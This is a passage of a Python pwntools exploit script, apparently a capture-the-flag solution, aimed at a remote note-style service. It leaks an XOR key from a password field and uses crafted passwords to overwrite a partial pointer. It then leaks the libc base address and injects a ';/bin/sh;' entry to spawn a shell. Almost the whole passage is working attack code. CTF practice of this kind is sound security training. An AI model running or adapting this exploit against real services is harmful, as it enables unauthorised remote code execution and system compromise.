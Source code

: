 ```python
        p.sendline(url)
        p.recvuntil("Password: ")
        p.sendline(password)

def view(index,cond=True):
        if cond:
                p.recvuntil("> ")
        p.sendline("2")
        p.recvuntil("Index: ")
        p.sendline(str(index))
############### main exploit    ###############
while 1:
        #sleep(0.5)
        log.info("started")
        p.close()
        #p=process([exe.path])
        p=remote(host,port)
        payload=b"a"*0x40
        try:
                add("b"*0x80,payload)
                view(0)
                view(0)
                p.recvuntil("Password:    ")

                leak=p.recvline()[:-2]

                key=xor(payload,leak)
                assert len(key)==0x40 and (b"\n" not in key) and (b" " not in key) and (b"\x00" not in key)


                partial=p32(0x8f70)
                password=xor(partial,key[:len(partial)])+key[len(partial):]+key*2+key[:-1]
                #print(len(password))

                add(b"://"+b"1"*0x80+b":cc",password[:255])
                sleep(0.5)
                view(1)
                #debug()
                '''if "Invalid choice" in p.recv(timeout=0.5):
                        raise Exception("fucking loop")'''
                view(1)

                p.recvuntil("3. Exit\n")
                libc.address=u64(p.recv(6).ljust(8,b"\x00"))-0x80e50
                log.info(hex(libc.address))
                if libc.address<0:
                        raise Exception("fucking libc")
                #debug()
                target=libc.address+0x21a098
                log.info(hex(target))
                #### second stage
                partial=p64(target)[:-2]
                password=xor(partial,key[:len(partial)])+key[len(partial):]+key*2+key[:-1]
                #print(len(password))
                log.info("unpause ")
                pause()
                add(b"://"+b"1"*0x80+b":cc",password[:255-8],False)
                log.info("reached")
                add(b";/bin/sh;\x00",b"xdd",False) #3

                view(2,False)
                view(2,False)
```